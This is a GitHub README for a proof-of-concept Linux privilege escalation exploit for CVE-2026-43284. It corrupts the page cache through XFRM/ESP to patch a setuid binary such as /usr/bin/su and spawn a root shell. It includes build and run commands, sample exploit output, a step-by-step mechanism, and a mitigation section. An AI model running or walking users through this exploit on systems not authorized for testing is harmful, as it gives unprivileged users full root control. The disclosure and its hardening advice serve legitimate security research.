


# CVE-2026-43284 — 4-byte XFRM/ESP

<p align="center">
  
  
  
  
</p>

<p align="center">
  <strong>Proof-of-concept</strong> local privilege escalation via XFRM/ESP page-cache corruption<br/>
  <sub>4-byte write primitive · 48 iterations · 192-byte ELF overwrite · unprivileged user + netns</sub>
</p>

<br/>

## Proof of concept

<p align="center">
  
  
</p>

<p align="center">
  <b>Left:</b> kernel preflight, setuid scan, and exploit chain &nbsp;·&nbsp;
  <b>Right:</b> root shell spawned — <code>id</code> / <code>whoami</code> confirm <code>uid=0(root)</code><br/>
  <sub>Tested on WSL2 · Ubuntu 24.04.1 LTS · kernel <code>6.6.87.2-microsoft-standard-WSL2</code></sub>
</p>

<br/>

```
  ╔═══════════════════════════════════════╗
  ║  SLEY - CVE-2026-43284 dirtyfrag PoC  ║
  ╚═══════════════════════════════════════╝
```

> **Disclaimer:** For authorized security research, education, and testing on systems you own or have explicit permission to test only. The authors are not responsible for misuse.

---

## Overview

| | |
|---|---|
| **CVE** | [CVE-2026-43284](https://nvd.nist.gov/vuln/detail/CVE-2026-43284) |
| **Type** | Local privilege escalation (LPE) |
| **Vector** | XFRM / ESP-UDP (`UDP_ENCAP_ESPINUDP`) page-cache corruption |
| **Primitive** | 4 bytes per iteration (ESN `seq_hi`) |
| **Payload** | 192-byte x86_64 ELF (`setuid(0)` + `setgid(0)` + `execve("/bin/sh")`) |
| **Default target** | `/usr/bin/su` |
| **Architecture** | x86_64 only |
| **Privileges required** | Unprivileged user (uses user + network namespaces) |

Works even when `algif_aead` is blacklisted — the exploit uses the kernel XFRM/ESP code path directly.

---

## Features

Built-in preflight checks before exploitation:

1. **Kernel config** — verifies `CONFIG_USER_NS`, `CONFIG_XFRM`, `CONFIG_INET_ESP`  
   (reads `/boot/config-*`, `/lib/modules/*/config`, or `/proc/config.gz` on WSL2)
2. **Setuid scan** — lists SUID binaries on the system (`find / -perm -4000`)
3. **Exploit** — patches page cache, spawns root shell via PTY, restores target on exit

---

## Requirements

### Kernel options

```text
CONFIG_USER_NS=y
CONFIG_XFRM=y
CONFIG_INET_ESP=m   # or =y
```

Quick check:

```bash
# bare metal / VM
grep -E 'CONFIG_XFRM=|CONFIG_INET_ESP=|CONFIG_USER_NS=' /boot/config-$(uname -r)

# WSL2
zcat /proc/config.gz | grep -E 'CONFIG_XFRM=|CONFIG_INET_ESP=|CONFIG_USER_NS='
```

### Other

- Linux kernel **vulnerable** to CVE-2026-43284 (see [Patch status](#patch-status))
- `gcc`, `libc`, `libutil` (for `forkpty`)
- Readable **setuid** target binary (default: `/usr/bin/su`)

---

## Build

```bash
git clone https://github.com/jayhutajulu1/CVE-2026-43284.git
cd CVE-2026-43284
make
```

Or manually:

```bash
gcc -O0 -Wall -o sley-dirtyfrag sley-dirtyfrag.c -lutil
```

> `-O0` is intentional — optimization can break timing-sensitive splice/UDP behavior.

---

## Usage

### 1. Confirm you are unprivileged

```bash
id
# uid=1000(youruser) gid=1000(youruser) groups=...
```

### 2. Run the exploit

```bash
./sley-dirtyfrag                  # default target: /usr/bin/su
./sley-dirtyfrag /usr/bin/passwd  # custom setuid binary
```

The tool runs three automated phases:

| Phase | What it does |
|:---:|---|
| **1** | Kernel config preflight (`CONFIG_USER_NS`, `CONFIG_XFRM`, `CONFIG_INET_ESP`) |
| **2** | Full-system setuid binary scan; highlights default target |
| **3** | Backup target → patch page cache (48× 4-byte writes) → spawn root shell |

### 3. Verify root access

Inside the spawned shell:

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

whoami
# root
```

### 4. Exit to restore

Press `Ctrl+D` or type `exit`. The PoC drops the page cache so the original on-disk binary is restored automatically.

If restore fails:

```bash
echo 3 | sudo tee /proc/sys/vm/drop_caches
```

### Command reference

| Command | Description |
|---|---|
| `./sley-dirtyfrag` | Exploit `/usr/bin/su` (default) |
| `./sley-dirtyfrag /path/to/suid` | Exploit a custom setuid binary |
| `make` | Build `sley-dirtyfrag` |
| `make clean` | Remove binary |

### Example output

```text
┌─[ phase 1] kernel config preflight
  → /proc/config.gz
  [+] CONFIG_USER_NS        = y  (required =y)
  [+] CONFIG_XFRM           = y  (required =y)
  [+] CONFIG_INET_ESP       = m  (required =m or =y)
  kernel options OK.

┌─[ phase 2] setuid binary scan
  10 /usr/bin/su  ← target
  found 14 setuid binaries.

┌─[ phase 3] exploit
  [*] unshare userns+netns, register 48 XFRM SA, splice→UDP 4500...
  [+] corrupt               all iterations done
  [+] verify                ELF patch detected

  ╔══════════════════════════════════════╗
  ║  root shell — exit to restore        ║
  ╚══════════════════════════════════════╝
```

---

## Mitigation

### Apply the kernel patch (recommended)

| | |
|---|---|
| **Fixed in** | `f4c50a4034e6` (mainline, May 8 2026) |
| **Introduced** | `cac2661c53f3` (Jan 2017) |

**Action:** Upgrade to a distro kernel that includes the fix, or build from a patched mainline tree.

```bash
# check your running kernel
uname -r

# verify fix is present (example — adjust for your distro's package naming)
# apt update && apt install --only-upgrade linux-image-$(uname -r)
```

### Hardening options (defense in depth)

| Measure | Effect |
|---|---|
| **Patch / upgrade kernel** | Eliminates the underlying page-cache write bug |
| **Restrict user namespaces** | Blocks this PoC (requires `CONFIG_USER_NS`) |
| **Remove unneeded setuid binaries** | Reduces viable targets (`chmod u-s`, or uninstall) |
| **Lockdown / LSM (SELinux, AppArmor)** | May limit post-exploitation impact depending on policy |
| **Monitor XFRM + UDP/4500** | Detect anomalous SA registration and ESP-in-UDP traffic from unprivileged namespaces |

#### Restrict unprivileged user namespaces

This exploit depends on `unshare(CLONE_NEWUSER | CLONE_NEWNET)` without root.

```bash
# runtime (may not exist on all kernels)
sysctl kernel.unprivileged_userns_clone=0

# or disable at build time
# CONFIG_USER_NS is not set
```

> **Note:** Disabling user namespaces blocks **this** PoC but not necessarily **CVE-2026-43500** (rxrpc variant for systems without userns).

#### Audit setuid binaries

```bash
find / -perm -4000 -type f 2>/dev/null
# remove or harden binaries you do not need
```

#### Drop caches after suspected compromise

If you believe a setuid binary was patched in memory:

```bash
echo 3 | sudo tee /proc/sys/vm/drop_caches
# re-verify binary integrity from package manager / known-good hash
```

---

## How it works

1. **`unshare(CLONE_NEWUSER | CLONE_NEWNET)`** — isolated user/network namespace (no root needed).
2. **Register 48 XFRM security associations** — shellcode bytes encoded in ESN `seq_hi` (4 bytes per SA).
3. **Trigger via UDP port 4500** with `UDP_ENCAP_ESPINUDP`:
   - `splice()` reads the target file into a pipe
   - `splice()` moves data from pipe → UDP socket
   - Page-cache page enters the ESP scatter-gather list via the `skip_cow` path
   - `authencesn` scatterwalk writes `seq_hi` at `assoclen + cryptlen`
4. **HMAC fails** — but the page-cache write **persists**.
5. **Execute the patched setuid binary** — minimal ELF runs `setuid(0)` / `setgid(0)` / `execve("/bin/sh")`.
6. **On shell exit** — drop page cache (`posix_fadvise`) so the kernel reloads the clean file from disk.

---

## Tested environments

| Environment | Kernel |
|---|---|
| WSL2 Ubuntu 24.04.1 LTS | `6.6.87.2-microsoft-standard-WSL2` |
| Ubuntu 24.04 | vulnerable builds |
| Fedora 44 | vulnerable builds |

---

## Related work

- **CVE-2026-43500** — rxrpc variant for systems **without** user namespaces; targets `/etc/passwd` with an 8-byte `pcbc(fcrypt)` brute-force primitive. Not included in this repository.

---

## Files

| File | Description |
|---|---|
| `sley-dirtyfrag.c` | Exploit source |
| `Makefile` | Build helper |
| `proof-of-concept-1.jpg` | PoC screenshot — preflight + exploit |
| `proof-of-concept-2.jpg` | PoC screenshot — root shell verification |
| `README.md` | This file |

---

## License

Provided as-is for research and education. Use responsibly.

---

## Author

**SLEY** — CVE-2026-43284 dirtyfrag PoC

If this helped your research, consider starring the repo.
